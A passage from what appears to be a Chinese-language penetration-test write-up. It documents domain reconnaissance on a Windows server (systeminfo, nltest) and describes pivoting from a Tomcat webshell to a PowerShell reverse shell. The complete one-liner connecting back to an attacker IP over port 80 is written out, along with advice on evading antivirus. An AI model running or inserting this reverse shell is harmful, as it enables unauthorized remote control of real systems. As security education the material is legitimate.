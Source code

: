 

```
ALLUSERSPROFILE=C:ProgramData
COMPUTERNAME=SRVINTRANET
USERDOMAIN=SUPERCOMPANY
USERNAME=SRVINTRANET$
```

现在我们获取到了计算机名SRVINTRANET，与此同时，它属于SUPERCOMPANY域，完美。

继续使用systeminfo来检索其他有用信息：

命令：systeminfo

结果：



```
Host Name: SRVINTRANET
OS Name: Microsoft Windows Server 2012 R2 Standard
OS Version: 6.3.9600 N/A Build 9600
OS Manufacturer: Microsoft Corporation
OS Configuration: Member Server
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
…
```

接下来是域控制器

命令：cmd /c nltest /dclist:supercompany

结果：



```
Get a list of DCs in domain ‘supercompany’ from ‘\SRVDC1′.
srvdc1.supercompany.local[PDC] [DS]Site: Default-First-Site-Name
srvdc2.supercompany.local [DS]Site: Default-First-Site-Name
The command completed successfully
```

这时候Android设备可能已经开始发热了，我们需要转移到一个更合适的shell上。Android设备已经不再适合我们的工作了。

我们的黄金法则是：保持隐蔽和躲避杀毒软件。于是我们使用了基于PowerShell的shell，希望SRVINTRANET能够访问互联网吧。

通过Tomcat上的webshell，我们装好了Powershell后门，将会执行单向回连的命令，与此同时我们的公网服务器用netcat监听了80端口



```
cmd /c powershell -nop -c “$c=New-Object Net.Sockets.TCPClient(‘&lt;OUR_PUBLIC_IP&gt;’,80); $s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){;$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb=(IEX $data 2&gt;&amp;1|Out-String);$sb2=$sb+’PS ‘+(pwd).Path+’&gt;’; $sb=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sb,0,$sb.Length);
$s.Flush()};$c.Close()”
```

这个脚本有什么功能呢？它会在启动PowerShell的时候执行以下命令：创建一个TCPClient对象，反向连接到我们的机器，打开一个I/O流，并使用InvokeExpression来执行输入的内容

